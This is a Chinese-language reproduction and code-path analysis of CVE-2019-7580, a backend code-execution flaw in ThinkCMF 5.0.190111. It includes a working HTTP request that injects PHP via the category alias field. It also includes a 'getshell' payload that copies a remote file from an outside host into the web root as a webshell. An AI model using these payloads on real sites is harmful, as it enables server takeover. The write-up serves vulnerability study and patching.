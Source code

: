 # （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞

> 原文：[http://book.iwonder.run/0day/ThinkCMF/CVE-2019-7580.html](http://book.iwonder.run/0day/ThinkCMF/CVE-2019-7580.html)

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 5.0.190111

## 三、复现过程

### 0x01 利用过程：

后台登录状态下， 1、将 payload 插入数据库并读取然后写入 data/conf/route.php 文件

```
POST /portal/admin_category/addpost.html HTTP/1.1
Host: www.0-sec.org
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2 
```

2、然后访问：

```
/portal/admin_category/index.html 
```

触发

```
include data/conf/route.php 
```

操作，执行 payload。下图以执行 sleep(5)作为演示。

![image](img/2333ef318aa2a2f79a3ecc1433dec57e.png)

![image](img/967a78cba0589110b654db4deb0d6a03.png)

#### 补充

poc 只是 phpinfo,用 eval 一句话，或者用 fputs 写马 等都会报错

直接 getshell exp

```
1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2 
```

这样网站也会崩掉

但是会再 public 下生成 1.php

得快速连上，再清空 thinkcmf\data\conf\route.php 文件 网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将 payload 插入数据库，写入 data/conf/route.php 文件

程序的入口是 index.php,在 index.php 中\think\App::run()执行应用。

![image](img/dac07c459a6fa9617a092e36e7039d86.png)

在 App.php 的 run()函数 139 行，执行 sef::exec();

![image](img/2d04fbacca6ccd7e630f0e013dd93024.png)

通过解析 url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。

![image](img/bd752bb4927b9b02c5075e2df5f957e5.png)

通过反射执行`AdminCategoryController.php`的`addPost`函数。 在 addPost 函数中，从$this->request->param()函数中得到请求中的参数传递给$data。

![image](img/24012b32465a691053228707917b0673.png)

然后通过$this->validata 调用父类(./simplewind/thinkphp/library/think/Controller.php)的 validata 函数进行过滤。然后将$data 传入`./app/portal/model/PortalCategoryModel.php`的 addCategory 函数进行实际的"添加分类"操作。

![image](img/a3f73e92b626e6fd262e932a842ad437.png)

在 addCategory 函数中，184 行这一句：

```
$findRoute = $this->where('full_url', $fullUrl)->find(); 
```

通过查询数据中是否存在对应的 url，由于是第一次插入，所以这里并没有查到。 154 行和 155 行通过`setRoute`函数对数据库进行了两次插入操作。 根入`setRoute`函数，

![image](img/31dbe2e6bd2ee7b8fddd6f17a1a4d7cc.png)

其中$fullUrl 和$url 的值如截图所示。 继续跟，

![image](img/f9eb5f5ced5fe733dff5371c417e70d0.png)

在 34 行从数据库中查询查询相关数据，

```
$routes      = $this->where("status", 1)->order("list_order asc")->select(); 
```

在`addCategory`函数的 157 行调用

```
$routeModel->getRoutes(true); 
```

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的 payload。 写入前后对比如下：

![image](img/f702972e09067382212a252453ff64e2.png)

#### 2、触发 payload 执行

带着登录的 cookie 访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行 url 路由检测

![image](img/717def0a103b406e0b23e841d503fbf8.png)

这里先

```
include app/route.php 
```

![image](img/fe3a765adb450c8d4ee2cf43df3a45bc.png)

然后，

```
include data/conf/route.php 
```

![image](img/140ad43ce7ae3fa74cdea38f830ccffd.png)

最终执行我们的 payload：`phpinfo()`。

![image](img/c3b9345517f4cd048b078fb8874e6497.png)

## 参考链接

> [https://xz.aliyun.com/t/3997#toc-6](https://xz.aliyun.com/t/3997#toc-6)
> 
> [https://www.t00ls.net/thread-55060-1-1.html](https://www.t00ls.net/thread-55060-1-1.html)

